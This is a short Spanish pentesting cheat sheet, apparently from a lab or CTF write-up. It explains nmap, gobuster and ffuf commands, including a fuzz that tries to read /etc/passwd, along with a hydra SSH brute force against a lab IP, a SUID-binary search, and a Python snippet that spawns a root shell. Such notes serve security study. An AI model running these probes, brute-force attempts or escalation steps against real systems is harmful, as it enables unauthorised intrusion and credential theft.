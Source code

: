 ## 🛠️ Herramientas, comandos y servicios usados

### 🔍 Nmap
Escanea puertos y detecta servicios.
```
nmap -p- --open -A -sS -Pn -n <IP>

    -p-: escanea todos los puertos.
    
    --open: muestra solo los puertos abiertos.
    
    -A: detección de sistema y versión.
    
    -sS: escaneo SYN, más sigiloso.
    
    -Pn: no hace ping previo.
    
    -n: no resuelve nombres DNS. 
```

### 🪓 Gobuster
Hace fuzzing para encontrar directorios o archivos ocultos.
```
gobuster dir -u http://<IP>/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,py,html,txt,js
    -w: diccionario.
    -x: extensiones que queremos probar.
```

###🏹 Ffuf
Fuzzing para probar parámetros o rutas.
```
ffuf -c -t 200 -fc 404 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://<IP>/index.php?FUZZ=/etc/passwd"
    -fc 404: ignora errores 404.
    
    -t 200: usa 200 hilos (va más rápido).
    
    -u: URL con FUZZ donde se probarán los valores.
```

### 🔐 Hydra
Fuerza bruta contra servicios de autenticación.
```
hydra -L usuarios.txt -p purpl3 -I ssh://172.17.0.2 -V -F -u

    -L usuarios.txt: lista de nombres de usuario. Si solo fuera un usuario lo indicamos y ponemos -l.
    
    -p purpl3: usa la contraseña "purpl3" para todos los usuarios. Si fuera ir probando + de una contraseña seria -P y usar por ejemplo el diccionario rockyou.
    
    -I: retoma sesión interrumpida si existe.
    
    ssh://172.17.0.2: objetivo y protocolo (SSH).
    
    -V: muestra cada intento de login (modo verboso).
    
    -F: para al encontrar una combinación válida.
    
    -u: prueba usuario a usuario, no combinaciones completas.

```

###  🔎 Find permisos SUID
Busca archivos ejecutables con bit SUID activado (ejecutables con privilegios del dueño).
```
find / -perm -4000 -user root 2>/dev/null

    /: busca desde la raíz del sistema.
    
    -perm -4000: busca archivos con bit SUID activado.
    
    -user root: limitados a archivos propiedad del usuario root(o el que especifiques).
    
    2>/dev/null: oculta errores (por ejemplo, por falta de permisos).

```

### 🐍 Python Shell Escalation
Ejecuta una shell Bash desde un script Python, útil para escalar privilegios si se ejecuta como root.
```
import os;
os.system("/bin/bash")
```
